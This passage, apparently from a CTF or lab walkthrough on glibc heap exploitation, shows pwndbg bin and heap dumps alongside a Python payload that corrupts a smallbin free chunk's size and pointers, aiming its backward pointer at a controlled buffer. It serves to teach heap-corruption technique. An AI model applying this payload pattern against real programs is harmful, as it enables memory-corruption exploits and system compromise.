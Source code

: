 By now, the `bins` should look like the following (`unsorted bin` has become a `smallbins entry`):

```
pwndbg> bins
tcachebins
empty
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0x100: 0x55df85260ee0 —▸ 0x77229d601db0 (main_arena+336) ◂— 0x55df85260ee0
largebins
empty
```





Second,  the `BK` *(alias for `BCK` which is an alias for `backwards pointer`)* of the `smallbins free chunk`  to `buf1` (This will be used in a moment):

```python
# Set the BK of the smallbins free chunk to Buf1
payload = b'F'*(0x9f8+0x8)      # Pad the chunk to abuse the 8-byte alignment
edit(4, payload)                
payload += b'F'*8               # Edit again to reach the next 8-byte segment
edit(4, payload)


payload = b'F'*0x9f8
payload += p64(0x101)                   # Chunk size field (has to be valid to avoid mitigations kicking in)
payload += p64(0xdeadbeef)              # Forward pointer can be anything
payload += p64(buf1)                    # Backwards pointer to the buffer controlled by player

edit(4, payload)                        # Apply payload
```



The `heap` and `vis` command should now look like the following:

```
pwndbg> heap
[...]
Free chunk (smallbins) | PREV_INUSE
Addr: 0x561ca197bee0
Size: 0x101
fd: 0xdeadbeef
bk: 0x561ca197b700

pwndbg> vis 
0x561ca197b000	0x0000000000000000	0x0000000000000291	................
[...]
0x561ca197bec0	0x4646464646464646	0x4646464646464646	FFFFFFFFFFFFFFFF
0x561ca197bed0	0x4646464646464646	0x4646464646464646	FFFFFFFFFFFFFFFF
0x561ca197bee0	0x4646464646464646	0x0000000000000101	FFFFFFFF........	 <-- smallbins[0x100][0]
0x561ca197bef0	0x00000000deadbeef	0x0000561ca197b700	.............V..
[...]
```

